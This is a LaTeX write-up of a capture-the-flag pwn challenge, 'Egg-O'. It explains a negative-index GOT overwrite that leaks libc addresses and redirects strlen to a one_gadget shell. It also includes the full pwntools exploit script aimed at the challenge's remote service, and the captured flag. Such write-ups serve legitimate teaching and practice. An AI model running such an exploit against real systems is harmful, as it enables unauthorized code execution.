% !TeX root = ../solution.tex

\hypertarget{he22.37}{%
\chapter{[HE22.37] Egg-O}\label{he22.37}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level8/challenge37.jpg}
\end{marginfigure}
\section{Intro}
Egg or chicken, what was first?

\verb+nc 46.101.107.117 2208+

Note: The service is restarted every hour at x:00.

File: \verb+eggo.zip+

\subsection{Hint}
unlink

\section{Solution}\label{hv22.37solution}

The zip-file contains an executable and a copy of the \verb+libc+.  Inspect the
binary first with Ghidra and notice:
\begin{itemize}
\item Linux application
\item allocation of memory for the eggs happens in one function, but the
	content of the egg is entered in another function with \verb+gets+.
\item there is an error in the program to keep track of the number of eggs --
	it is never reset
\item when the appropriate egg is to be selected, then the input is only
	checked for an upper bound, negative eggs are allowed.
\item the hint \verb+unlink+ points towards a heap exploit
\end{itemize}

\noindent First a heap based exploit was tried using pwntools, but led nowhere.
Then Engy pointed out that the eggs could be negative and so a direct
manipulation of all memory becomes possible.  The attack in the end works like
this:

\begin{enumerate}
\item try to find a way to write to the GOT to redirect a function to leak
	addresses from \verb+libc+.  The egg at index $-1855$ does this, it
	points to \verb+got["strlen'']+.  \verb+strlen+ is called as part of
	the weigh function.
\item redirect \verb+strlen+ to call \verb+printf+ instead.  Every call of
	\verb+weigh_egg+ now prints the content of the egg pointed to.
\item leak the addresses of \verb+printf+ and \verb+malloc+.  In priciple one
	would be enough, but having both gives a check that we are really
	dealing with the \verb+libc+ provided.
\item now that we know the real addresses, we can have \verb+strlen+ point to a
	gadget.  The gadgets can be found using
	\href{https://github.com/david942j/one_gadget}{one\_gadget}.  There are
	actually three possibilites.
\item redirect \verb+strlen+ to one of the gadgets and weigh the egg.  If we
	get a SIGSEV, try the next one, otherwise enjoy the gadget and use the
	shell.
\end{enumerate}

In the end the last gadget worked and we can list the remote directory, find a
file called \verb+eggo.flag+ with the flag\\
\noindent
\verb+he2022{wh4t_w4s_f1rst_th3_ch1ck3n_0r_th3_3gg?}+.

\begin{marginfigure}
	
\includegraphics[width=49mm]{level8/egg37.png}
\end{marginfigure}

\subsection{Notes}

\href{https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf}{Pwntools cheat sheet}\\
\noindent
\href{https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/Heap_overflow.md}{Heap overflow writeup}

\subsection{Script}
{\small
\begin{minted}{python}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 46.101.107.117 --port 2208 ./eggo
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./eggo')
libc = ELF('./libc-2.33.so')

# gadgets from running one_gadget ./libc-2.33.so
gadgets = [0xcb5ca, 0xcb5cd, 0xcb5d0]

host = args.HOST or '46.101.107.117'
port = int(args.PORT or 2208)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
 
def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
io = start()

# use a negative egg to re-direct strlen to printf by writing to the GOT
address_of_printf_got = 0x400730  # at 0x400730 the value is 0x404048 
address_of_strlen_got = 0x4006e8
address_of_malloc_got = 0x400760

diff = (address_of_strlen_got - exe.sym.eggs) // 8
printf_plt = 0x4010a6

log.info(f'printf_plt: {hex(printf_plt)}\n')
log.info(f'printf at plt + 6: {hex(exe.plt.printf+6)}\n')

log.info(f'use egg {diff}')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(printf_plt))
print(io.recvline())

# leak the address of printf
log.info(f'address of eggs: {hex(exe.sym.eggs)}')
diff = (address_of_printf_got - exe.sym.eggs) // 8 
io.recvuntil(b'> ')
log.info('reading the address from printf@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_printf = u64(addr)

# now leak address of malloc
diff = (address_of_malloc_got - exe.sym.eggs) // 8 
log.info(f'malloc at : {hex(exe.plt.malloc)}\n')
io.recvuntil(b'> ')
log.info('reading the address from malloc@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_malloc = u64(addr)
log.info(f'diff prinf - malloc from run: {addr_printf-addr_malloc}')

# now re-direct strlen to a gadget
diff = (address_of_strlen_got - exe.sym.eggs) // 8
addr_gadget = addr_printf - libc.sym.printf + gadgets[2]
print(f'gadget in libc: {hex(addr_gadget)}')
io.recvuntil(b'> ')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(addr_gadget))

io.interactive()
\end{minted}
}
